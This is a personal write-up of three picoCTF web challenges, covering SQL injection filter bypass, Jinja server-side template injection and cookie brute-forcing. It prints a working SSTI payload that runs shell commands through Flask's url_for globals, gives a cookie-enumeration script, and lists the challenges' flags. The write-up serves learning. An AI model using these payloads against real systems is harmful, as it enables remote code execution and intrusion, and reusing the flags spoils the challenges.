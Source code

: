 # 1. Web Gaunlet

> Can you beat the filters?
Additional details will be available after launching your challenge instance.
## Solution:

- This challenge was easy
- We had been given the filter.php and we coud see which couuld be blocked 
I just used `--` and `/*` to get through all the filters


## Flag:

```
 picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

- about sql injections (didn't know about /* and ;)


## Resources:

- https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/

***

# 1. SSTI

> I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.


## Solution:

So basically I confirmed what template engine we are running by running {{7*7}} which resulted in 49 which means jinja, next I confirmed that if we are running flask by doing {{url_for}} which returned (url_for is a popular method in flask which has os module imported on module level)
```
<bound method Flask.url_for of <Flask 'app'>>
```
which means we can import os and run arbitarary commands 
```
{{url_for.__globals__['os'].popen("ls").read()}}

``` 
to run the ls command, after running the command we see a file flag which we can ofcourse cat
```

{{url_for.__globals__['os'].popen("cat flag").read()}}
``` 
which gives us the flag

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}
```

## Concepts learnt:

Basic SSTI and about jinja, and __globals__ and things like that

## Resources:

![PwnFunctions' video on SSTI](https://www.youtube.com/watch?v=SN6EVIG4c-0)


***




# 1. Cookies

> Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:6418/
## Solution:

- Since the challenge name was cookies, I went directly to Dev tools -> Application->Cookies
- There was a cookie named name which was set to -1
- Also when I entered the defualt value I would notice that it would go to /check and the name cookie will become 0
- Also I noticed if I entered sth wrong it would remain at -1 
- So what I probably need to do is iterate through all the numbers which are available (guess 50)
```
import requests
for i in range(50):
    a = requests.get("http://mercury.picoctf.net:54219/check", cookies={"name": f"{i}"}).text
    print(a)

```
then I run the scirpt like this `python script.py | grep pico` which gave us the flag

## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}
```

